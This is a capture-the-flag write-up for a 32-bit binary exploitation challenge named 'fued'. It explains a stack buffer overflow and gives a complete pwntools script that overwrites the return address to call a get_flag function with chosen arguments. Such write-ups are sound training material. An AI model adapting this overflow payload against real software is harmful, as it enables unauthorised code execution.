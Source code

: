 ```yaml
---
title: Fued pcc.nccs.qualify 2022
author: megachar0x01
date: 2022-07-22
categories: [Pwn, i386, ctf]
---
```


### Purpose : Get The Flag

We see that no protection is enabled and binary is 32-bit.

<img src="https://i.imgur.com/JefIMrL.png" alt="img_1">


  
Start by analyzing the main function. We can see that it prints the msg and then takes values from the user and store it in a character buffer of size 100. Later down the program, we can see that after some checks buffer is passed to the "safe" function.

<img src="https://i.imgur.com/wgiG6Ud.png" alt="img_2">

In the safe function we can see that the pass argument is copied to a variable that is on the stack because it has a 30 buffer size and we can overflow it

<img src="https://i.imgur.com/1cCLI7l.png" alt="img_3">

After found the correct padd value (38{ 30 ( buff size ) + 4 (saved ebp  ) + 4( param_1 )  } ) we  start writing exploit after going through function list found "get_flag" function . Which will read the flag but only print if the correct argument is paced which is "0xdeadbeef" and "0xcaf3b33f".


<img src="https://i.imgur.com/eOcnppY.png" alt="img_4">

Now complicated things are out of the way. My favorite part crafting the exploit.

```python
#!/usr/bin/python3
from pwn import *
import struct

def start(argv=[], *a, **kw):
    if args.GDB:  
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)


gdbscript = '''

continue
'''.format(**locals())


exe = './fued'; elf = context.binary = ELF(exe, checksec=False);

io = start()
offset = 38

payload = b"A"*38+p32(0x080491f6)+b"A"*4+p32(0xdeadbeef)+p32(0xcaf3b33f) 

io.sendlineafter(b"Enter the key that you received when registering:",payload)

io.interactive()


```

"ブーム"。 旗を受け取った

<img src="https://i.imgur.com/u1nkhBH.png" alt="img_5">
